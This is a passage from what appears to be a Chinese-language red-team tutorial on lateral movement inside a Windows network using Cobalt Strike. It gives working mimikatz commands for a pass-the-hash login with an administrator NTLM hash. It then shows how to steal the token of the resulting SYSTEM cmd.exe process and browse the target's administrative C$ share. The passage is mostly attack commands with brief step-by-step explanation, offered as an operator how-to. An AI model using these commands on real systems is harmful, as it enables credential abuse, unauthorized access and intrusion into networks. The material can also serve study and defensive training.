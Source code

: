 [![](assets/1702372940-eb87d5befcda995d1166ef76ea469229.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/21.png)

## [](#PTH-mimikatz "PTH-mimikatz")PTH-mimikatz[](#PTH-mimikatz)

使用`cs`的`mimikatz`进行`pth`，发现执行后在目标主机上弹出 cmd 窗口，可利用进程窃取，直接在 cs 上进行远程操作。

```bash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.91.178 /ntlm:c780c78872a102256e946b3ad238f661
```

这时候 `mimikatz` 会打开一个 system 权限的 cmd 窗口。我们查看目标进程，`explore->process list`,选择最下方的 `cmd.exe` 进程

[![](assets/1702372940-d8ea9267b14df2e5001137f285b126f5.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/22.png)

```plain
steal_token 3532
dir \\192.168.91.178\c$
```
